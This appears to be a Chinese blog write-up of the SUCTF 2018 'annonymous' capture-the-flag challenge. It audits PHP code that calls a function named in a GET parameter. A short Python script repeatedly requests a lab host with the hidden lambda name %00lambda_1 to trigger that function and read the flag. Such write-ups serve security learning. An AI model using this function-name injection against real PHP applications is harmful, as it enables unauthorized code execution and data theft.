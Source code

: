 ```yaml
---
title: '[SUCTF 2018]annonymous'
date: 2024-08-25 20:33:59
tags: 题解
categories: 刷题笔记
---
```


## [SUCTF 2018]annonymous

我们进行代码审计

```
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

首先创建了一个匿名函数，会输出flag

接着openssl_random_pseudo_bytes(32)生成一个随机数，然后将其转成了十六进制，将其赋值给$hash

<!--more-->

接着SUCTF\_和hash拼接成一个新的函数名，函数会执行上面构造的匿名函数
所以，要想获得flag就只有两种办法，直接执行匿名函数，或者执行SUCTF_和hash拼接成的新函数



`create_function()函数在创建之后会生成一个函数名为：%00lambda_%d`
`%d`是持续递增的，这里的`%d`会一直递增到最大长度直到结束



**方法一**

Apache启动新的线程，这样这里的`%d`会刷新为1，就可以预测了
写个脚本一直去刷新访问即可：

```python
import requestsimport requests
while True:
    r=requests.get('http://3352ebc5-790b-4aee-8996-9fd93ed8f887.node5.buuoj.cn:81/?func_name=%00lambda_1')
    if 'flag' in r.text:
        print(r.text)
        break
    print('Testing.......')

```

得到flag

![image-20240825204716323](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408252047407.png)



**方法二**

我们还可以对%00lambda_%d的%d进行爆破，从而执行该函数

![image-20240825205301498](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408252053578.png)
